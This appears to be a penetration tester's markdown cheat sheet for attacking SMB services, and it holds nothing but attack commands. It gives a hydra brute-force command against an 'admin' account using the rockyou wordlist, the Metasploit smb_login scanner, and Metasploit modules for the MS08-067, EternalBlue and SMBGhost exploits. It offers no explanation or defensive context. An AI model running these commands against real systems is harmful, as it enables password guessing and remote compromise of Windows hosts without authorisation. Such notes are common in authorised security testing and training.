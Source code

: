 

### Brute Force
```bash
search smb_login

hydra -l admin -P /usr/share/wordlists/rockyou.txt IP smb 
```

### Dictionary Attack 

```bash
msfconsole 
use auxiliary/scanner/smb/smb_login 
```

### Metasploit
```bash
use exploit/windows/smb/ms08_067_netapi
use exploit/windows/smb/ms17_010_eternalblue
use exploit/windows/smb/cve_2020_0796_smbghost

```